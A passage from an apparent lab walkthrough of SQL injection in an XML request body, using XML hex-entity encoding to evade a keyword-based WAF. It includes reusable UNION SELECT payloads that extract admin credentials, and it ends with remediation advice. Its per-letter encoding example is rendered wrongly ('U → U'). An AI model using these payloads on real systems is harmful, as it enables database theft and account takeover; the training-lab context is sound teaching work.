- <user> fields  
- Any endpoint with:  
  Content-Type: application/xml  
  or  
  Content-Type: text/xml

Always test:
- 1+1  
- '  
- 1 UNION SELECT NULL  
- encoded UNION payloads  

---

## 🔹 Quick concept checklist
- SQLi in XML body  
- WAF blocks raw SQL keywords  
- Bypass via XML entity encoding (&#xXX;)  
- Determine column count  
- Use encoded UNION  
- Extract admin credentials  

---

## 🔹 Lab walkthrough — exact steps (copy-paste ready)

### 1. Send request to Repeater
Send the stock-check request:

<stockCheck>
    <storeId>1</storeId>
    <productId>1</productId>
</stockCheck>
```Modify:

<storeId>1+1</storeId>

Response changes → SQL injection confirmed.


---

### 2. Try UNION SELECT (blocked by WAF)

<storeId>1 UNION SELECT NULL</storeId>

WAF blocks it → we need encoding.


---

### 3. Encode SQL keywords to bypass WAF

Encode characters into XML hex entities:

Example encoding:

U → U

N → N

I → I

O → O

N → N


Thus:

UNION SELECT becomes:

&#x55;&#x4E;&#x49;&#x4F;&#x4E; &#x53;&#x45;&#x4C;&#x45;&#x43;&#x54;

Backend decodes → WAF bypassed.


---

### 4. Determine number of columns

After encoding, test:

1 UNION SELECT NULL

Works.

Testing NULL, NULL fails → only one column allowed.
Must concatenate extracted fields.


---

### 5. Final extraction payload

Final XML with encoded UNION + SELECT:

<stockCheck>
    <storeId>
        1 &#x55;&#x4E;&#x49;&#x4F;&#x4E; &#x53;&#x45;&#x4C;&#x45;&#x43;&#x54; username || '~' || password FROM users
    </storeId>
    <productId>1</productId>
</stockCheck>

The application returns:

administrator~<password_here>

Extract password → log in.


---

### 6. Log in as administrator

Use the leaked password → solve the lab.


---

## 🔹 PoC payload (ready to reuse)

1 &#x55;&#x4E;&#x49;&#x4F;&#x4E; &#x53;&#x45;&#x4C;&#x45;&#x43;&#x54; username || '~' || password FROM users


---

## 🧾 Evidence (Screenshot)

1️⃣ Screenshot — Final encoded XML UNION SQLi dumping admin password


---

## 🔹 Troubleshooting

WAF blocking → encode more characters

Wrong number of columns → only 1 allowed

XML parser error → malformed XML

No SQLi effect → confirm content-type = application/xml


---

## 🔹 Remediation

Use prepared statements

Validate XML structure serverside

Enforce type constraints (integer-only IDs)

Disable detailed SQL output

Deploy schema validation (XSD)

Use robust WAF rules (not keyword-only)

Apply least-privilege DB roles


---
